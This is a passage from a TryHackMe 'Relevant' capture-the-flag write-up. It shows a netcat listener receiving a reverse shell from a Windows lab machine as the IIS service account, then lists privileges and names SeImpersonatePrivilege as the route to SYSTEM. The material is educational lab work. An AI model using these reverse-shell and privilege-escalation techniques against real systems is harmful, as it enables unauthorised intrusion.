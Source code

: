 We do not get ouptut and if we check the netcat listener, we get a shell back.

```console
local@local:~/Documents/tryhackme/relevant$ rlwrap nc -nvlp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.126.3 49838
Spawn Shell...
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool
```
Here we are running as IIS user which is a service account on the windows box. It is similiar to www-data on the linux box. As we have a shell as iis, we can read the content of the inetpub directory which contains the content of the webserver. inetpub can be thought as the /var/www/html in the linux system.

# Privilege Escalation
The first thing that I do on the linux on is checking the sudoers entry using **sudo -l** and on the windows we have to first check the privilege assigned to the user that we are running as. Since we are running as IIS, it is likely that the service accounts have more privileges than the normal user account. Privileges are something that when enabled gives the low privilege user to do some privileged operaion.

### Listing privileges using whoami /priv
```console
c:\inetpub>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------
[]
Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
We can see that few of the privileges are enabled for our user. And we can use the SeImpersonatePrivilege to get the shell as authority/system.
If you have having a very hard time with the privilege escalation on windows, you could solve [windows10privesc](https://tryhackme.com/room/windows10privesc) by [Tib3rius](https://tryhackme.com/p/Tib3rius) and [windowsprivescarena](https://tryhackme.com/room/windowsprivescarena) by [TCM](https://tryhackme.com/p/TCM).
